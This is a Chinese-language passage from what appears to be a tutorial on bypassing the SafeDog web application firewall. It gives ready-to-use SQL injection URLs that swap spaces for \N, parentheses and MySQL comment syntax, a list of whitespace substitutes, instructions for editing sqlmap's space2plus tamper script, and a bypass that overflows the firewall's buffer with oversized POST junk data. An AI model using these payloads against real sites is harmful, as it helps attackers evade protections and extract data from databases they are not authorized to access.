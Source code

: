 使用\N去绕过

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,\Nfrom information_schema.tables
```

括号法去绕过

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,From(((information_schema.tables)))
```

也可以组合起来

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4\Nfrom{a`information_schema`.tables}
```

这些都是去掉空格的合法语句,当然如果不拦截<code>\/\*\/或\/\!\*\/</code>的话,也可以尝试这两个

> 提示，安全狗默认不开启对information_schema的拦截，如果开启了，那么就得找支持post传递数据的注入点了，post下不拦截information_schema这个关键词。

补充点
php+mysql环境下支持的空格有：

```TXT
%0a,%0b,%0c,%0d,%20,%09,%a0,/**/
```

其中使用的最多的就是<code>%0a,%0b,%a0,\/\*\*\/</code>，这四个当作空格插入在语句中来扰乱waf检测。
干货分享：使用<code>/^!$asd%2a–=/</code>代替空格即可，找到sqlmap中tamper目录下的space2plus.py文件，将其中代替空格的<code>\/\*\/换成\/^!$asd%2a–=\*\/</code>即可使用sqlmap跑了。

## 缓冲区溢出绕waf

另外也可以对安全狗实行缓冲区溢出绕waf
缓冲区溢出用于对WAF，有不少WAF是C写的，而C语言本身没有缓冲区保护机制，因此如果WAF在处理测试量时超出其缓冲区长度，就会引发bug从而实现绕过
要求是(针对于安全狗而已):
GET类型请求转换成POST类型
Content-Length头长度大于4008
正常参数放置在脏数据后面

![](https://cdn.jsdelivr.net/gh/CNbysec/CNbysec.github.io/OSS/img/绕waf系列之绕安全狗/16.png)


